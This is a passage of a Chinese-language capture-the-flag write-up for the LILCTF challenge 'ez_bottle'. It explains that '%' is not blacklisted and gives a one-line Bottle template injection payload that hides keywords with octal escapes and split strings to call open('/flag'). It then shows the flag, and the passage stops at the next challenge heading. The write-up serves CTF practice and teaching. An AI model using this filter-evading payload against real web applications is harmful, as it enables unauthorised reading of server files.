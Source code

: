 可确认 `%` 符号不受黑名单限制，可构造不包含黑名单关键字的单行 Python 代码即可:

```python
% assert False, locals()["\137\137builtins\137\137"]["ope""n"]("/flag").read()
```

将以上代码打包至 Zip 档案包上传即可:

![](images/ez_bottle-5.webp)

访问相应路径即可获得 Flag:

![](images/ez_bottle-6.webp)

得到 Flag 为: `LILCTF{6o7Tl3_hAS_8een_r3cyCLeD}`

### Your Uns3r

看到代码:
